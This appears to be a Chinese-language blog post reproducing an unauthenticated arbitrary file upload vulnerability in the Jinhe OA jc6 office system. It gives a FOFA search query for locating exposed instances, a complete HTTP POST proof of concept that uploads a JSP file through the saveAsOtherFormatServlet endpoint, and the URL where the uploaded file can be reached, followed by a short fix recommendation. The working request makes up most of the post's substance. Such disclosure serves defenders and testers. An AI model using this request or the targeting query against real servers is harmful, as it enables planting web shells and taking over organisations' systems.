



# 金和OA jc6 任意文件上传漏洞复现

### 0x01 产品简介

   金和[OA](https://so.csdn.net/so/search?q=OA&spm=1001.2101.3001.7020)协同办公管理系统软件（简称金和OA），本着简单、适用、高效的原则，贴合企事业单位的实际需求，实行通用化、标准化、智能化、人性化的产品设计，充分体现企事业单位规范管理、提高办公效率的核心思想，为用户提供一整套标准的办公自动化解决方案，以帮助企事业单位迅速建立便捷规范的办公环境。

### 0x02 漏洞概述

   金和OA jc6系统saveAsOtherFormatServlet接口处存在任意文件上传漏洞，未经身份认证的攻击者可利用此漏洞上传恶意后门文件，最终可导致服务器失陷。 

### 0x03 复现环境

FOFA：app="金和网络-金和OA"



### 0x04 漏洞复现 

PoC

```cobol
POST /jc6/servlet/saveAsOtherFormatServlet?fileName=test.jsp HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Connection: close
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="FileBlod";filename="test.jsp"
Content-Type: image/png

<% out.println("123456");%>
------WebKitFormBoundary
```



验证url

```cobol
http://your-ip/jc6/upload/gwzw/test.jsp
```



### 0x05 修复建议

  关闭互联网暴露面或设置接口访问权限

 升级至安全版本
